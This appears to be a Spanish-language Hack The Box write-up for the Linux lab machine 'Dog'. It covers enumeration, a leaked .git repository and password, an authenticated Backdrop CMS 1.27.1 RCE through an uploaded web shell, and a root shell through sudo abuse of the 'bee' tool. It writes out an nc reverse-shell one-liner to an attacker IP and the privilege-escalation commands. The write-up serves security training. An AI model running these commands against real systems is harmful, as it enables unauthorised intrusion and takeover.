## Box Info

| Name                  | Dog              | 
| :-------------------- | ---------------: |
| Release Date          | 08 Mar, 2025     |
| OS                    | Linux            |
| Rated Difficulty      | Easy             |

## Enumeration

```bash
sudo nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.11.58 -oG allPorts
```

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-12 23:07 EDT
Initiating SYN Stealth Scan at 23:07
Scanning 10.10.11.58 [65535 ports]
Discovered open port 22/tcp on 10.10.11.58
Discovered open port 80/tcp on 10.10.11.58
Completed SYN Stealth Scan at 23:07, 20.94s elapsed (65535 total ports)
Nmap scan report for 10.10.11.58
Host is up, received user-set (0.13s latency).
Scanned at 2025-03-12 23:07:13 EDT for 21s
Not shown: 50700 closed tcp ports (reset), 14833 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

```

```nmap -p 22,80 -sCV 10.10.11.58 -oN targeted```

```bash
Host is up (0.061s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
|_http-title: Home | Dog
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Whatweb

```r
http://10.10.11.58 [200 OK] Apache[2.4.41], Content-Language[en], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.58], UncommonHeaders[x-backdrop-cache,x-generator], X-Frame-Options[SAMEORIGIN]
```

## CMS - Backdrop

En la web encontramos CMS Backdrop un **Content Management System** y es importante a la hora de enumerar, encontrar su version para verificar si es vulnerable a algun exploit.



`tiffany@dog.htb`



Primer usuario encontrado.

### Information Disclosure

Dirsearch

```bash
[23:20:48] 301 -  309B  - /.git  ->  http://10.10.11.58/.git/                
[23:20:48] 200 -  455B  - /.git/info/                                        
[23:20:48] 200 -  240B  - /.git/info/exclude                                 
[23:20:48] 200 -  476B  - /.git/logs/
[23:20:48] 301 -  319B  - /.git/logs/refs  ->  http://10.10.11.58/.git/logs/refs/
[23:20:48] 301 -  325B  - /.git/logs/refs/heads  ->  http://10.10.11.58/.git/logs/refs/heads/
[23:20:48] 200 -  230B  - /.git/logs/refs/heads/master
[23:20:49] 200 -  337KB - /.git/index                                        
[23:20:49] 200 -    2KB - /.git/objects/                                     
[23:20:49] 200 -  461B  - /.git/refs/                                        
[23:20:49] 200 -   41B  - /.git/refs/heads/master
[23:20:49] 301 -  319B  - /.git/refs/tags  ->  http://10.10.11.58/.git/refs/tags/
[23:20:52] 403 -  276B  - /.ht_wsr.txt                                       
[23:20:52] 403 -  276B  - /.htaccess.bak1                                    
[23:20:52] 403 -  276B  - /.htaccess.orig                                    
[23:20:52] 403 -  276B  - /.htaccess.sample
[23:20:52] 403 -  276B  - /.htaccess.save
[23:20:52] 403 -  276B  - /.htaccess_extra                                   
[23:20:52] 403 -  276B  - /.htaccess_orig
[23:20:52] 403 -  276B  - /.htaccess_sc
[23:20:52] 403 -  276B  - /.htaccessOLD
[23:20:52] 403 -  276B  - /.htaccessBAK
[23:20:52] 403 -  276B  - /.htaccessOLD2
[23:20:52] 403 -  276B  - /.htm                                              
[23:20:52] 403 -  276B  - /.html
[23:20:53] 403 -  276B  - /.htpasswd_test                                    
[23:20:53] 403 -  276B  - /.htpasswds
[23:20:53] 403 -  276B  - /.httr-oauth
[23:21:07] 403 -  276B  - /.php                                              
[23:21:57] 301 -  309B  - /core  ->  http://10.10.11.58/core/                
[23:22:23] 301 -  310B  - /files  ->  http://10.10.11.58/files/              
[23:22:24] 200 -  586B  - /files/                                            
[23:22:41] 200 -    4KB - /index.php                                         
[23:22:42] 404 -    2KB - /index.php/login/                                  
[23:22:52] 200 -  456B  - /layouts/                                          
[23:22:53] 200 -    7KB - /LICENSE.txt                                       
[23:23:07] 301 -  312B  - /modules  ->  http://10.10.11.58/modules/          
[23:23:07] 200 -  399B  - /modules/                                          
[23:23:43] 200 -    5KB - /README.md                                         
[23:23:54] 200 -  528B  - /robots.txt                                        
[23:24:02] 403 -  276B  - /server-status/                                    
[23:24:02] 403 -  276B  - /server-status                                     
[23:24:04] 200 -    0B  - /settings.php                                      
[23:24:12] 301 -  310B  - /sites  ->  http://10.10.11.58/sites/              
[23:24:24] 301 -  311B  - /themes  ->  http://10.10.11.58/themes/            
[23:24:24] 200 -  454B  - /themes/
```

Encontramos la  version de backdrop [Backdrop - version](https://docs.backdropcms.org/api/backdrop/files?object_name=&summary=&page=1) usaremos ``git-dumper`` para obtener todos los archivos de la ruta /.git/ desde la web que obtuvimos haciendo un escaneo de directorios.

```bash
tree . -all | grep "backdrop" | find . -name "backdrop_system_listing_compatible_test.info"
```

`cat ./core/modules/simpletest/tests/backdrop_system_listing_compatible_test/backdrop_system_listing_compatible_test.info`



```bash
version = 1.27.1
```

### Information Leakage

Posibles contraseñas



Credenciales que posiblemente sean para la web

```r
tiffany
BackDropJ2024DS2024
```



Una vez logeados, nuevamente se expone la version con esto ya confirmamos.



Tenemos un listado de usuarios



```
tiffany
rosa
axel
morris
john
dogBackDropSystem
jobert
jPAdminB
```

## Backdrops CMS - RCE

[Backdrop CMS 1.27.1 - Authenticated Remote Command Execution (RCE) ](https://www.exploit-db.com/exploits/52021)




Una vez que subimos el archivo y ejecutemos no funcionara, probablemente necesitemos subirlo manual





`http://10.10.11.58//modules/shell/shell.php?cmd=`


```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.33 4444 >/tmp/f
```



```
script /dev/null -c bash
export TERM=xterm
Ctrl + z 
stty raw -echo;fg
reset xterm
```

## Privilege Escalation

### Abusing sudoers



sudo -l



``bee`` una utilidad de línea de comandos para el sistema de gestión de contenidos Backdrop CMS`.

``bee -h``



```bash
sudo /usr/local/bin/bee eval "shell_exec('bash');"
```



Al ejecutar comandos no aparece nada.



Cambiaremos la funcion por otro para poder ver el output al ejecutar comandos.

```bash
sudo /usr/local/bin/bee eval "system('/bin/bash');"
```

Pwned